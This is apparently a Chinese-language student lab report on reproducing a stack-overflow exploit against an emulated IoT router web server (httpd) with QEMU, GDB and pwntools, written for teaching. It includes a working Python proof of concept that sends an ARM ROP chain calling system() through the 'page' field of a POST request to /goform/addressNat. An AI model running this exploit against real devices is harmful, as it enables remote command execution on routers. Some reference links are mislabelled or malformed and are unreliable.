









# IoT 设备栈溢出漏洞利用实验
姓名：李俊豪
学号：20231063053

---

## 1. 实验目标

通过本实验，学习者将：
- 理解栈溢出漏洞的原理
- 掌握ARM架构下的ROP利用技术
- 学习使用GDB和PWN工具进行漏洞分析和利用

## 2. 实验环境准备

### 2.1 实验环境要求
- 操作系统：Ubuntu
- 目标设备：IoT设备固件模拟环境
- 网络环境：Docker容器内进行操作

## 3. 漏洞分析概述

目标程序`httpd`存在以下特征：
- 32位ARM架构程序
- 未开启PIE和Canary保护
- 开启NX保护
- 漏洞点位于处理POST请求的函数中
- 触发点：`fromAddressNat`接口的`page`
## 4. 实验步骤

### 4.1 启动调试环境

1. 我们依旧基于开源的[FirmEmuHub](https://github.com/a101e-lab/FirmEmuHub/)工具进行操作，首先找到BM-2024-00012修改其中的run.sh文件。仅修改最后一行即可

```sh
# 原始: qemu-arm -L ./ bin/httpd
# 修改后:
tail -f /dev/null
```

2. 接着参考0x03的实验，运行这个工具。等待容器启动完成，使用以下命令创建多个容器内终端。

```bash
sudo python3 emulation.py -b ./Benchmark/BM-2024-00012
docker ps

df986d06e562   bm-2024-00012   "./run.sh"   7 minutes ago   Up 7 minutes   0.0.0.0:32768->80/tcp, [::]:32768->80/tcp   bm-2024-00012_dpac25

docker exec -it df986d06e562 /bin/bash
```

3. 第一个终端：启动目标程序，也就是squashfs-root目录下


```sh
# 安装必要的工具
sudo apt install qemu-user-static

# 复制QEMU到目标目录
cp $(which qemu-arm-static) ./

# 创建必要的目录
mkdir -p ./proc/sys/kernel
mkdir -p ./etc
mkdir -p ./proc/sys/net/ipv4

# 启动程序
sudo chroot ./ ./qemu-arm-static -g 1234 ./bin/httpd
```

4. 第二个终端：在squashfs-root目录下启动GDB
```sh
gdb-multiarch
target remote :1234
file ./bin/httpd
```


### 4.2 漏洞触发验证

1. 首先我们根据ghidra找到漏洞函数的地址，并在这个地址上打上断点

```gdb
b *0x00079d94
```

2. 然后使用gdb让整个程序跑起来

```gdb
c
```

在第一个终端中就可以看见固件已经开始仿真了



```bash
root@df986d06e562:/qemu_arm/squashfs-root# sudo chroot ./ ./qemu-arm-static -g 1234 ./bin/httpd
init_core_dump 1816: rlim_cur = -1, rlim_max = -1
init_core_dump 1825: open core dump success
init_core_dump 1834: rlim_cur = 5242880, rlim_max = 5242880


Yes:

      ****** WeLoveLinux****** 

 Welcome to ...
connect: No such file or directory
Connect to server failed.
connect: No such file or directory
Connect to server failed.
connect: No such file or directory
Connect to server failed.
connect: No such file or directory
Connect to server failed.
create socket  fail -1
connect: No such file or directory
Connect to server failed.
connect: No such file or directory
Connect to server failed.
connect: No such file or directory
Connect to server failed.
connect: No such file or directory
Connect to server failed.
[httpd][debug]----------------------------webs.c,157
Unsupported setsockopt level=1 optname=13
httpd listen ip = 192.168.0.1 port = 80
webs: Listening for HTTP requests at address 192.168.0.1
```

在浏览器中访问这个固件发现也是可以的
```bash
# 访问网站虚拟机地址+容器端口
http://192.168.62.141:32768/main.html
```


3. 接下来我们开启第三个终端，并发送Poc文件

```python
import socket
import os
from pwn import *

li = lambda x : print('\x1b[01;38;5;214m' + x + '\x1b[0m')
ll = lambda x : print('\x1b[01;38;5;1m' + x + '\x1b[0m')

ip = '192.168.62.141' # 换成自己虚拟机ip
port = 32768 # 换成自己仿真出来的端口

r = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

li('[+] connecting')
r.connect((ip, port))
li('[+] connect finish')

rn = b'\r\n'

libc_base = 0x3fd9c000
system_addr = 0x005a270 + libc_base
pop_r3_pc = 0x00018298 + libc_base
mov_r0_sp_blx_r3 = 0x00040cb8 + libc_base

p1 = b'a' * 244 + b'a' * 4 + p32(pop_r3_pc) + p32(system_addr) + p32(mov_r0_sp_blx_r3) + b'id'

p2 = b'page=' + p1

p3 = b"POST /goform/addressNat" + b" HTTP/1.1" + rn
p3 += b"Host: 192.168.0.1" + rn
p3 += b"User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:102.0) Gecko/20100101 Firefox/102.0" + rn
p3 += b"Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8" + rn
p3 += b"Accept-Language: en-US,en;q=0.5" + rn
p3 += b"Accept-Encoding: gzip, deflate" + rn
p3 += b"Cookie: password=hum1qw" + rn
p3 += b"Connection: close" + rn
p3 += b"Upgrade-Insecure-Requests: 1" + rn
p3 += (b"Content-Length: %d" % len(p2)) +rn
p3 += b'Content-Type: application/x-www-form-urlencoded'+rn
p3 += rn
p3 += p2

li('[+] sendling payload')
r.send(p3)

response = r.recv(4096)
response = response.decode()
li(response)
```


4. 我们查看第二个终端的gdb，发现程序停在了我们打的断点的位置，同时整个程序的运行停止。


```bash
gdb-peda$ quit
root@0a26fffef595:/qemu_arm/squashfs-root# gdb-multiarch
GNU gdb (Ubuntu 7.11.1-0ubuntu1~16.5) 7.11.1
Copyright (C) 2016 Free Software Foundation, Inc.

Breakpoint 1, 0x00079d94 in fromAddressNat ()
```

5. 接下来我们在第二 个终端里用gdb执行一次continue的命令，让程序继续运行。我们发现gdb自动退出，同时POC运行的终端也得到302的报错，网站也无法进行访问，验证POC有效，并在gdb中得到验证。






## 5. 实验结果验证

实验结果的验证可以从以下几个方面进行：

1. **断点触发验证**
   - GDB中设置的断点 `0x00079d94` 被成功触发
   - 程序在断点处停止，显示 `Breakpoint 1, 0x00079d94 in fromAddressNat ()`

2. **栈溢出验证**
   - 继续执行后程序崩溃，表明栈溢出成功触发
   - GDB输出显示程序异常退出信息

3. **服务状态验证**
   - Web服务无法访问，表明服务已被成功中断
   - 尝试访问Web界面返回连接错误

4. **HTTP响应验证**
   - POC脚本收到302状态码响应
   - 响应内容表明请求已被处理

## 6. 注意事项

1. **环境配置相关**
   - 确保所有依赖工具（如 `qemu-arm-static`、`gdb-multiarch`）已正确安装
   - Docker容器的网络配置必须正确，确保可以访问目标端口
   - 确保实验环境中的文件权限设置正确

2. **调试相关**
   - 使用GDB调试时，注意ARM架构的特殊性（如Thumb模式）
   - 设置断点时需要考虑指令对齐
   - 在分析崩溃时，注意保存现场信息

3. **漏洞利用相关**
   - ROP链构造时需要注意地址的正确性
   - 注意libc基地址的动态变化
   - Payload构造时需要考虑字符串长度限制
   - 确保HTTP请求头格式正确，特别是Content-Length的计算

4. **安全相关**
   - 仅在授权的实验环境中进行测试
   - 不要在生产环境中测试exploit
   - 保护好exploit代码，防止被滥用

5. **故障排除**
   - 如果exploit失败，检查网络连接和端口配置
   - 验证目标程序是否正确启动
   - 确认QEMU模拟器工作正常
   - 检查GDB连接状态

## 7. 参考资料

- Tenda CVE-2018-18708 漏洞复现文档：https://docs.pwntools.com/
- gdb-peda安装：hsttps://blog.csdn.net/counsellor/article/details/81290335